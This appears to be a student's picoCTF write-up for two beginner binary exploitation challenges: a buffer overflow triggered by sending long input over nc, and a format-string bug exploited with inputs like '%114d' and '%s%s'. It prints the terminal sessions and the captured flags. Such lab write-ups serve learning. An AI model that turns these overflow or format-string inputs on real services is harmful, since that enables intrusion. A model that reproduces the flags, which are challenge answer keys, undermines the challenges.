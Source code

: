 # Binary exploitation 
## Buffer overflow 0 
So i got very lucky with this one.
The source and the program would not open regardless of what I did. To my computer it simply did not exist. So i played around with the program trying to figure out what it was meant to do.
It would exit regardless of what input i gave. The name of the challenge was buffer overflow 0 so the thought process was "What if my input was just very long" cause there had to be a max limit to the input.
Turns out i was right.
I did look at the write up of this online to check the what the source and program were.
```
springonioin-picoctf@webshell:~$ nc saturn.picoctf.net 57620
Input: a
The program will exit now
 
springonioin-picoctf@webshell:~$ nc saturn.picoctf.net 57620
Input: 3
The program will exit now

springonioin-picoctf@webshell:~$ nc saturn.picoctf.net 57620
Input: w7ieyhdw bhjlygfp72
The program will exit now

springonioin-picoctf@webshell:~$ nc saturn.picoctf.net 57620
Input: 249872-398741982hdkeibfwyeugdkq8iw783yr3wuifbq
picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}
```
## format string 0
Hint 2 said "to try out different options. 
While Hint 1 made us look at different format specifiers in C. <br>
```Gr%114d_Cheese```
Looked stood out to me because of the %114d. Its supposed to print a character with 114 characters and it triggers the program to serve Patrick.
Similarly with ```Cla%sic_Che%s%steak```
```
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_c8362f05}
```
